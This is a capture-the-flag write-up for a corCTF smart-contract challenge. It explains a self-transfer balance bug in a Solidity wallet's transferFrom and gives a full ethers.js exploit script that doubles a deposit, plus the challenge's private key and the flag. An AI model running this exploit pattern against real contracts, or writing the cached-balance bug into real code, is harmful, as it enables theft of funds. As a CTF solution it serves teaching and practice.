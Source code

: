 the vulnerability is in the transferFrom function.
If `from` equals to `to`,
```solidity
balances[from] = fromBalance - amt;
balances[to] = toBalance + amt;
```
the User can add amt to their balance ( Users must deposit an amount equal to or greater than amt )
I think I saw this vuln on Twitter.
```solidity
balances[from] -= amt;
balances[to] += amt;
```
And thought this code will be safe.
the exploit flow:
1. deposit 100 ether
2. approve user 100 ether
3. transfer user to user with 100 ether
4. withdraw 200 ether


###### `exploit.js`
```javascript
const ethers  = require('ethers');
const fs = require('fs');
url = 'https://baby-wallet.be.ax/381a0939-1e95-42dd-9cda-70a2880adf7b'
user = '0xE374b91523278549A86a7d3c1b9Cf4B918F1063d'
pvKey = '0x450dbd4c36847123df88f1aec977197cba7dd676a725a70bd4fc3ce023a95dee'
setupAddr = '0x3efA52920e554DF6A8738A717450598f0e3202c4';
// default wallet
/*
ticket{401a09c398b4015b20178132cabba425}
uuid:           381a0939-1e95-42dd-9cda-70a2880adf7b
rpc endpoint:   https://baby-wallet.be.ax/381a0939-1e95-42dd-9cda-70a2880adf7b
private key:    0x450dbd4c36847123df88f1aec977197cba7dd676a725a70bd4fc3ce023a95dee
your address:   0xE374b91523278549A86a7d3c1b9Cf4B918F1063d
setup contract: 0x3efA52920e554DF6A8738A717450598f0e3202c4
*/
async function main() {
    provider = new ethers.providers.JsonRpcProvider(url);
    const signer = new ethers.Wallet(
        pvKey,
        provider
    )
    console.log(ethers.utils.formatUnits(await provider.getBalance(user)).toString());
    setupAbi = JSON.parse(fs.readFileSync('./out/Setup.sol/Setup.json', 'utf8'))['abi'];
    walletAbi = JSON.parse(fs.readFileSync('./out/BabyWallet.sol/BabyWallet.json', 'utf8'))['abi'];
    const setup = new ethers.Contract(setupAddr, setupAbi, signer);
    const walletAddr = await setup.wallet();
    const wallet = new ethers.Contract(walletAddr, walletAbi, signer);

    await wallet.deposit({value: ethers.utils.parseEther('100')});
    await wallet.approve(user, ethers.utils.parseEther('100'));
    await wallet.transferFrom(user,user,ethers.utils.parseEther('100'));
    console.log((await wallet.balances(user)).toString());

    await wallet.withdraw(ethers.utils.parseEther('200'));
    console.log((await provider.getBalance(walletAddr)).toString());
}

main();
```
> corctf{inf1nite_m0ney_glitch!!!}
